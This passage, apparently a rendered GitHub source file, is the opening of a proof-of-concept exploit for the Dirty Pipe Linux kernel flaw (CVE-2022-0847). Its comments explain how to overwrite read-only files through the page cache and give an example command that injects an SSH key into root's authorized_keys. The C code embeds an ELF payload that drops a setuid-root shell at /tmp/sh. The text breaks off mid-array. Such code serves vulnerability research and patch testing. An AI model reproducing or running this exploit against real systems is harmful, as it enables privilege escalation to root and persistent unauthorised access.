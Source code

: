 ````
 * Proof-of-concept exploit for the Dirty Pipe
 * vulnerability (CVE-2022-0847) caused by an uninitialized
 * "pipe_buffer.flags" variable.  It demonstrates how to overwrite any
 * file contents in the page cache, even if the file is not permitted
 * to be written, immutable or on a read-only mount.
 *
 * This exploit requires Linux 5.8 or later; the code path was made
 * reachable by commit f6dd975583bd ("pipe: merge
 * anon_pipe_buf*_ops").  The commit did not introduce the bug, it was
 * there before, it just provided an easy way to exploit it.
 *
 * There are two major limitations of this exploit: the offset cannot
 * be on a page boundary (it needs to write one byte before the offset
 * to add a reference to this page to the pipe), and the write cannot
 * cross a page boundary.
 *
 * Example: ./write_anything /root/.ssh/authorized_keys 1 $'\nssh-ed25519 AAA......\n'
 *
 * Further explanation: https://dirtypipe.cm4all.com/
 */

#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/user.h>
#include <stdint.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

// small (linux x86_64) ELF file matroshka doll that does;
//   fd = open("/tmp/sh", O_WRONLY | O_CREAT | O_TRUNC);
//   write(fd, elfcode, elfcode_len)
//   chmod("/tmp/sh", 04755)
//   close(fd);
//   exit(0);
//
// the dropped ELF simply does:
//   setuid(0);
//   setgid(0);
//   execve("/bin/sh", ["/bin/sh", NULL], [NULL]);
unsigned char elfcode[] = {
	/*0x7f,*/ 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
	0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x97, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x97, 0x01, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x48, 0x8d, 0x3d, 0x56, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0x41, 0x02,
	0x00, 0x00, 0x48, 0xc7, 0xc0, 0x02, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48,
	0x89, 0xc7, 0x48, 0x8d, 0x35, 0x44, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc2,
	0xba, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc0, 0x01, 0x00, 0x00, 0x00, 0x0f,
	0x05, 0x48, 0xc7, 0xc0, 0x03, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d,
	0x3d, 0x1c, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0xed, 0x09, 0x00, 0x00,
````